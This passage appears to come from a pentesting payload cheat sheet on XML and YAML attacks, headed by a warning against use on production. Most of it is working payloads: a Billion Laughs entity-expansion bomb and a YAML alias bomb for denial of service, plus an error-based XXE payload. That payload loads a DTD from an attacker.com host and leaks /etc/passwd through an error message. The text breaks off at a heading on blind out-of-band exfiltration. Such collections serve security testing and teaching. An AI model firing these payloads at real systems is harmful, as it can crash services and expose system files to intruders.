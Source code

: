 ⚠️ : These attacks might kill the service or the server, do not use them on the production.

#### **Billion Laugh Attack**

```
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```

#### **Yaml attack**

```
a: &a ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]
```

### **Error Based XXE**

**Payload to trigger the XXE**

```
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % ext SYSTEM "http://attacker.com/ext.dtd">
    %ext;
]>
<message></message>
```

**Contents of ext.dtd**

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

### **Exploiting blind XXE to exfiltrate data out-of-band**

Sometimes you won't have a result outputted in the page but you can still extract the data with an out of band attack.
